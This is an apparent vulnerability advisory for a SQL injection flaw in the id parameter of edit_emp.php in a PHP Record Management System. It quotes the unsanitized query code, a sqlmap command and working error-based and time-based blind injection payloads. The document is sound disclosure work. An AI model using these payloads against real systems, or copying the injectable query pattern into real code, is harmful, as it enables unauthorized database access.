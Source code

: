 ### VUL_AUTHOR:netmanzhang
# Record Management System - SQL Injection on (edit_emp.php id parameter) 
## Vendor Homepage:
https://www.sourcecodester.com/php/5107/record-management-system.html 
## Version:V1.0
## Tested on: PHP, Apache, MySQL
## Affected Page:
edit_emp.php 

On this page, id parameter is vulnerable to SQL Injection Attack 
## Source code(Personnel_record_management_system/edit_emp.php):
```
$get_id=$_GET['id'];
$name_query=mysqli_query($conn,"select * from employee where employeeID='$get_id'")or die(mysqli_error());
$name_row=mysqli_fetch_array($name_query);
```
## Proof of vulnerability(Verify using the sqlmap tool):
#### -> sqlmap -u http://localhost/Personnel_record_management_system/edit_emp.php?id=126 --batch
## Output:
```
---
Parameter: id (GET)
    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: id=126'||(SELECT 0x7063664a WHERE 9172=9172 AND (SELECT 2687 FROM(SELECT COUNT(*),CONCAT(0x71786b6a71,(SELECT (ELT(2687=2687,1))),0x71706b6b71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a))||'

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=126'||(SELECT 0x6d414649 WHERE 2807=2807 AND (SELECT 2150 FROM (SELECT(SLEEP(5)))EdbI))||'
---
```
